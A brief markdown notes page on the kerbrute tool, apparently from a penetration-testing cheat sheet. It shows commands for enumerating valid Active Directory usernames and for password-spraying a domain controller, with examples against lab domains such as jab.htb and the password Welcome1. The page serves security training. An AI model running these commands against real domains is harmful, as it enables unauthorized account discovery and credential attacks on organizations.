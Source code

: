 # kerbrute

## Overview

A tool to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication

## Installation




## Usage

Test usernames to see if they are on the domain:

    kerbrute userenum --dc <ip_to_domain_controller> -d <full_domain_name> <path_to_file_with_usernames>
        kerbrute userenum --dc 10.10.10.10 -d jab.htb usernames.txt

Do a password spray:

    kerbrute passwordspray -d <domain_name> --dc <domain_controller_ip> <file_with_valid_usernames> <password>
        kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1



## More Information


https://github.com/ropnop/kerbrute